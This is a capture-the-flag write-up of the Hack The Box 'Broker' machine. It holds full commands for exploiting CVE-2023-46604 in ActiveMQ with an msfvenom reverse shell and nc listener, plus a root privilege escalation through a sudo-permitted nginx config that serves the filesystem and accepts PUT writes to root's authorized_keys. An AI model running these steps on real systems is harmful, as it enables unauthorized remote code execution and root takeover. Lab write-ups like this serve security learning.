




First things first I run `nmap` to discover and enumerate open ports. I run a scan and all ports first with the `-p-` flag, and then run a service version `-sV` and script `-sC` scan.
```bash
sudo nmap -sC -sV -v -p 22,80,1883,5672,8161,37911,61613,61614,61616 $IP
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
42917/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|   Supported Methods: GET HEAD TRACE OPTIONS
|_  Potentially risky methods: TRACE
|_http-title: Site doesnt have a title.
|_http-server-header: Jetty(9.4.39.v20210325)
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
```
There's quite a few ports open. SSH on port 22, an Nginx webserver on port 80. There's also various http ports open for Jetty and ActiveMQ on port 61616.

### Port 80 Website
Port 80 leads to a 401 unauthorized page and login prompt. Fortunately, my first attempt with `admin:admin` gets me a login.



After logging in I get to the default page for [ActiveMQ](https://activemq.apache.org)



ActiveMQ is an open source, multi-protocol, Java-based message broker. A message broker is software that enables applications, systems, and services to communicate with each other and exchange information by translating messages between protocols and languages.
#### Apache ActiveMQ & CVE-2023-46604
Reffering back to the nmap, a lot of this box seems to be oriented around ActiveMQ, and I'm able to get the version from Nmap, 5.15.15. Searching for this version, I find [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604), which is for RCE in this version of ActiveMQ!

Searching around, I find two POC's on github, [one from X1r0z](https://github.com/X1r0z/ActiveMQ-RCE/tree/main) and an updated [version from SaumyajeetDas.](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ) I use the updated version as it is translated into English.

I compile the `main.go` file to build the binary. I modify the `linux-poc.xml` file with my IP address, and create the `.elf` with `msfvenom` as described on the github. After that I start a python server in the directory containing the `xml` and `elf` file, and then run the compiled Go binary.
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
```
Start a python server
```bash
python3 -m http.server 8001
```
I set up a netcat listener
```bash
nc -lvnp 9001
```
And I then run the `go` binary
```bash
./ActiveMQ-RCE -i 10.129.64.72 -u http://{MY IP}:8001/poc-linux.xml
```
And caught the reverse shell!

# Root Shell
The first thing I notice is the i can run `nginx` as root. 
```bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
activemq@broker:/opt/apache-activemq-5.15.15/bin$
```
There's no [gtfobin](https://gtfobins.github.io) for this, and nothing obvious is coming up when searching for priv esc in this situation. But I'm thinking that I can make a malicious `nginx.conf`, and then restart `nginx` with that conf, perhaps I could run nginx as root and add the whole file system to the nginx site. Or perhaps specify a directory, like `/dev/shm` on the victim, where a write a rev shell that I can then execute as root throuh the browser...

#### Loading Root File System onto Nginx
This worked! I managed to create an `nginx.conf` that would run `nginx` as root and host the entire file system! Running `nginx` is like running `python3 -m http.server 80` except that this isnt a *simple* http server, it's a complicated one, so I need to actually craft a config file. But the same principles and possibilities still apply, I can host the whole file system on either one.
```
user root;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
	worker_connections 768;
}

http {

	server {
		listen 8081;
		server_name broker.htb;

		location / {
			root /;
			autoindex on;
		}
	}

	sendfile on;
	tcp_nopush on;
	types_hash_max_size 2048;
	include /etc/nginx/mime.types;
	default_type application/octet-stream;
	gzip on;
}
```
I grabbed the default `/etc/nginx/nginx.conf` to `/dev/shm` and removed everything I didn't think I needed. 

I removed all commented lines, removed the `include /etc/nginx/conf.d/*.conf` and `sites-enabled`, I removed the `access` and `error` logs, as well as SSL settings. 

I then changed the `user` line from `www-data` to `root`, and added in the `server` block inside the `http` block. 

I had it listen on port 8081, as 80 was taken. I made the location `/`, which will serve the whole file sytem, and I turned autoindex on so that it will list all the files when I navigate to a page in my browser. 

I then run `nginx` using this configuration file
```
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```

When browsing to http://VICTIM_IP:8081/ I get a listing of the whole file system.



I'm then able to browse into and read `/root/root.txt`. Very cool!



However, I want to get a shell.

#### Adding Root SSH Key
I need to figure out a way to write to the webserver, and therefor to the machine. If I can write a root SSH key, I can get ssh access as root.

All that I need to do this is to implement the Nginx WebDAV module for the PUT method. I modify the `server` section of the `nginx.conf` file. I don't need much functionality so i only need one line.
```
http {

	server {
		listen 8081;
		server_name broker.htb;

		location / {
			root /;
			autoindex on;
			dav_methods PUT;
		}
	}
```
 Running the Nginx start server command again will start another server, So I also need to change the port to 8082, as 8081 is taken by my old server.

After this I run the Nginx command again
```bash
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```
I can now write my public SSH key to the root directory, and get full root access to the box!
```bash
┌──(kali㉿Kali)──[1:05:55]──[~/htb/Machines/Broker/ActiveMQ-RCE]
└─$ curl -X PUT 10.129.202.119:8082/root/.ssh/authorized_keys -d 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCp00ECl3nPJyFspB3LAJhb2Q4qDV8X9KgJF/vSOpyTJSRKcuxl8W1bEdnCWAzGR5vGJnLH
<...SNIP...>
nobody@nothing'

┌──(kali㉿Kali)──[1:06:46]──[~/htb/Machines/Broker/ActiveMQ-RCE]
└─$ ssh -i ~/.ssh/id_rsa root@10.129.202.119

<...SNIP...>

root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)
root@broker:~# cat root.txt 
36a5cf--------------------------
```
To clean up my tracks at this point I kill the 2 webservers I started. I find their process ID numbers with `lsof`
```bash
root@broker:~# lsof -i :8081
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nginx   1272 root    6u  IPv4  30211      0t0  TCP *:tproxy (LISTEN)
nginx   1273 root    6u  IPv4  30211      0t0  TCP *:tproxy (LISTEN)
nginx   1274 root    6u  IPv4  30211      0t0  TCP *:tproxy (LISTEN)
root@broker:~# lsof -i :8082
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
nginx   1339 root    6u  IPv4  31111      0t0  TCP *:8082 (LISTEN)
nginx   1340 root    6u  IPv4  31111      0t0  TCP *:8082 (LISTEN)
nginx   1341 root    6u  IPv4  31111      0t0  TCP *:8082 (LISTEN)
root@broker:~# kill 1272
root@broker:~# kill 1339
```
